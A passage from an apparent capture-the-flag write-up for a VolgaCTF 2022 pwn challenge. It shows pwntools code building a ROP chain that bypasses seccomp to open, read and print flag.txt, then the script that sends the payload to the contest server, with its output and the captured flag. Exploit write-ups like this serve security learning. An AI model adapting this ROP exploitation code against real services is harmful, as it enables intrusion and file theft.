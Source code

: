 ```python
payload += p64(100)
payload += p64(0)
payload += p64(syscall)

# write
payload += p64(pop_rdi)
payload += p64(1)
payload += p64(pop_rax)
payload += p64(constants.SYS_write)
payload += p64(syscall)

# static flag.txt
payload += (flag_offset - len(payload)) * b'A' + b'flag.txt\0'
```

Create basic ROP chain:

1. `close` FD `0` so that it can be reused by `open` (see Analysis section above on seccomp rules).
2. `open` `flag.txt` (stored down stack) as FD `0`.
3. `read` FD `0`, and overwrite `flag.txt` on stack with `flag.txt` contents.  (The file is already open and tied to FD `0`; we no longer need this file name.  BTW, this works with file systems as well, if the file is open, you can still read from it even if removed, just get the FD from `/proc`).
4. `write` to `stdout` the flag.
5. Append to the end the text `flag.txt\0` for use by `open`.

```python
p.sendlineafter(b'>> ',b'2')
p.sendlineafter(b'index:\n',b'0')
p.sendlineafter(b'string:\n',payload)
p.sendlineafter(b'>> ',b'4')

flag = p.recvuntil(b'}').decode()
p.close()
print(flag)
```

Just write out the ROP chain as the index 0 string, and exit to exploit.

> You may need to run a few times to get the flag.  See `exploit1a.py` below.

Output:

```bash
# ./exploit.py REMOTE=1
[+] Opening connection to mafia.q.2022.volgactf.ru on port 1337: Done
[*] libc.address: 0x7f149db2c000
[*] stack_leak: 0x7ffc1cbf56a0
[*] return_address: 0x7ffc1cbf56a8
[*] Closed connection to mafia.q.2022.volgactf.ru port 1337
VolgaCTF{d0n7_y0u_try_70_ch347}
```

## exploit1a
